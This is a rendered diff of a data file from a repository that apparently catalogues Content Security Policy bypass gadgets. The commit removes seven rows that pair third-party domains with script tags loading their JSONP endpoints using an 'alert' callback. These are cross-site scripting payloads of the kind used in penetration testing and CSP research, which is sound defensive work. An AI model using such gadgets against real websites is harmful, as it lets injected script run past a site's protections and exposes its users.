

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Removed redirecting hosts.

```diff
--- a/data.tsv
+++ b/data.tsv
-row 15: adpushup.com | <script src="https://adpushup.com/wp-json?_jsonp=alert"></script>
-row 21: altmetric.com | <script src="https://altmetric.com/wp-json?_jsonp=alert"></script>
-row 65: bazaarvoice.com | <script src="https://bazaarvoice.com/wp-json?_jsonp=alert"></script>
-row 99: cookiebot.com | <script src="https://cookiebot.com/wp-json?_jsonp=alert"></script>
-row 101: criteo.com | <script src="https://criteo.com/wp-json?_jsonp=alert"></script>
-row 206: readspeaker.com | <script src="https://readspeaker.com/wp-json?_jsonp=alert"></script>
-row 210: reddit.com | <script src="https://reddit.com/.json?jsonp=alert"></script>
```
Also changed, not shown: 9 removed rows elsewhere in this file.
